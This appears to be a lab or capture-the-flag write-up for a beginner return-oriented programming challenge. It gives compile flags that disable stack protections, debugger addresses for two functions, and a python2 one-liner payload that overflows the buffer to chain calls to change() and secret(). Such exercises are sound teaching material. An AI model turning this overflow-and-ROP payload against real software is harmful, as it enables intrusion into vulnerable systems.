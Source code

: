 ### How to compile binary:

`gcc roplevel1.c -o roplevel1 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> x secret
0x80491bb <secret>:	0x53e58955
pwndbg> x change
0x8049186 <change>:	0x53e58955
```

### Methodolody:

Chain change() and secret() one after the other such that when the main function finishes is returning, it will return to the change function. WHen the change function finishes and is returning, it returns to the secret() function.

### Answer:

`python2 -c "print('A' * 20 + '\x86\x91\x04\x08\xbb\x91\x04\x08' + 'B'*20)" | ./roplevel1`

### Notes

- you have python2 and python3 installed on your system, make sure to run the exploit with python2 as python2 and python3 interpret byte strings `"\x$$"` differently as seen [here](https://stackoverflow.com/questions/60660568/overflowed-bytes-different-than-those-i-see-on-gdb)

- To ensure that the binaries are compiled and are functioning as close to what the author intended, use [checksec.rs](https://github.com/etke/checksec.rs) on the Mach-O executables (original ones) and [checksec.sh](https://github.com/slimm609/checksec.sh) on your elf executables and ensure that the security properties of both executables are as similar as possible